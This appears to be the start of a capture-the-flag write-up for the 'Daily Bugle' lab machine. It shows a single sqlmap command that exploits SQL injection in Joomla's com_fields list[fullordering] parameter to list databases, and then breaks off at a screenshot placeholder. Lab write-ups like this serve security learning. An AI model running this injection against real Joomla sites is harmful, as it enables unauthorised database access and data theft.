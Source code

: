 # Daily Bugle

##### Written: 

##### IP address: 

======================

### User Flag

```
sqlmap -u "http://10.10.93.111/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch --threads=10 | tee sql_results
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

